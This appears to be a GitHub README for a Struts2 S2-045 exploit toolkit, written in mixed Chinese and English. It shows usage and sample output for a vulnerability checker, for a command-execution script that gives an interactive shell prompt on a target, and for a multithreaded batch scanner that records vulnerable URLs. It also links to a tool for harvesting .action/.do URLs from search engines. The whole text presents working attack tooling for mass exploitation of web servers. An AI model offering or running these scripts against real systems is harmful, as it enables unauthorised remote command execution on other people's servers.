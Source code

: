 ### Usage

#### 检测漏洞POC
python s2_045.py http://xxx.com/a.action

```bash
>python s2_045.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
```
#### 漏洞利用POC（cmd版）
python s2_045_cmd.py http://xxx.com/a.action

```bash
>python s2_045_cmd.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
[cmd]>>ls
......
```
#### 多线程批量检测脚本
python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

#### 利用搜索引擎批量检测脚本
想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)


更多请参考博客：[nMask](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
